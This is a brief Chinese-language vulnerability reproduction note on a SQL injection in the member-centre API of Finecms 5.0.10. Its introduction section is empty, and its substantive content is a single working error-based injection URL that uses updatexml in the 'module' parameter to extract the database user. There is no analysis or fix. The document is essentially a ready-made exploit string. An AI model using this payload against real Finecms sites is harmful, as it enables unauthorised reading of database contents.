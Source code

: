 Finecms 5.0.10 会员中心sql注入漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=1&title=1&module=news,(select%20(updatexml(1,concat(1,(select%20user()),0x7e),1)))a

![](./resource/Finecms5.0.10会员中心sql注入漏洞/media/rId24.png)
